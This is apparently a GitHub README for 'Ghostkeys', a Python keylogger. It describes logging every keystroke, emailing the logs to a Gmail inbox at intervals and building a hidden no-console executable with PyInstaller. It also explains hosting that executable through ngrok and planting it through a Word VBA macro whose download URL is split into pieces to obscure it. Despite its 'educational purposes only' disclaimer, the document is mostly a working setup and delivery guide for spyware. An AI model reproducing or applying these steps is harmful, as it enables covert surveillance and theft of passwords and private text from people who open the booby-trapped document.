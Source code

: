## Ghostkeys
 
 ❗ This project is for educational purposes only. Unauthorized use on systems without consent is illegal and unethical.
 ## Features

- Keystroke logging via `pynput`
- Sends logs to a Gmail inbox every `SEND_INTERVAL` seconds
- Compiled to `.exe` using PyInstaller (`--onefile --noconsole`)
- Silent execution and optional macro-based remote delivery
- Lightweight, no file-writing unless modified

## How It Works

- A `keyboard.Listener` captures keystrokes globally.
- The captured keys are stored in a global `log` string.
- Every 120 seconds (default), the log is emailed via `smtplib`.
- After sending, the log is cleared and the timer restarts.

## Setup
Use this guide to configure and test GhostKeys using Python and optionally, remote delivery via a macro-enabled Word document.

## What you'll find
What You'll Find

| File             | Description                            |
|------------------|----------------------------------------|
| `keylogger.py`   | Main keylogger script                  |
| `downloader.vba` | VBA macro for delivery via Word        |
| `README.md`      | This documentation                     |

## 1. Install Python dependencies
- Ensure python 3.x is installed
```bash
pip install pynput
```
## 2. Configure Email settings
Open `keylogger.py` and scroll to the configuration section. Replace the placeholders:

```python
EMAIL_ADDRESS = "youremail@gmail.com"
EMAIL_PASSWORD = "your_app_password"
SEND_INTERVAL = 120  # in seconds
```
⚠️ This uses Gmail's App Passwords, not your actual password (you must have 2FA enabled).

## 3. Test the keylogger (Dev mode)
```bash
python keylogger.py
```
## 4. Compile an executable
```bash
pip install pyinstaller
python -m PyInstaller keylogger.py --onefile --noconsole
```
This generates `keylogger.exe` inside the `dist` folder

## 5. Deliver via Word macro
1. Host the executable:
   
   - Locally:
   ```bash
   python -m http.server 8080
   ```
   - Remotely:
   ```bash
    ngrok http 8080
Replace the following with your actual hosted exe link
```vb
    urlParts(0) = "https://"
    urlParts(1) = "your."
    urlParts(2) = "ngrok."
    urlParts(3) = "domain"
    urlParts(4) = "/key" & "logger.exe"
```
## About .env files
Some developers prefer using a `.env` file to store sensitive information like email credentials. This helps keep passwords separate from the main code.
If you're interested in .env for future use, you can look into the `python-dotenv` package.







  



